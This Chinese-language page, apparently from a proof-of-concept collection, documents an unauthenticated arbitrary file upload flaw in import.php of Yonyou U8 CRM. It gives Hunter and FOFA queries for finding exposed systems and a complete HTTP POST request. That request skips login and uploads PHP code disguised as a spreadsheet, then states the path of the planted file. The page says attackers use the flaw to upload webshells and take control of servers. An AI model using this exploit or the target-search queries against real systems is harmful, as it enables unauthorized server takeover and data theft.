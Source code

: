 # 用友CRM客户关系管理系统import.php存在任意文件上传漏洞

用友CRM客户关系管理系统import.php存在任意文件上传漏洞，未经身份验证的攻击者通过漏洞上传webshell文件，从而获取到服务器权限。

## hunter

```yaml
app.name="用友 CRM"
```

## fofa

```yaml
body="用友U8CRM"
```

## poc

```yaml
POST /crmtools/tools/import.php?DontCheckLogin=1&issubmit=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Length: 277
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye0z8QbHs79gL8vW5
Upgrade-Insecure-Requests: 1

------WebKitFormBoundarye0z8QbHs79gL8vW5
Content-Disposition: form-data; name="xfile"; filename="11.xls"

<?php phpinfo();?>
------WebKitFormBoundarye0z8QbHs79gL8vW5
Content-Disposition: form-data; name="combo"

help.php
------WebKitFormBoundarye0z8QbHs79gL8vW5--
```

![image-20240719191343917](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191913006.png)

文件路径：`http://ip/tmpfile/help.php`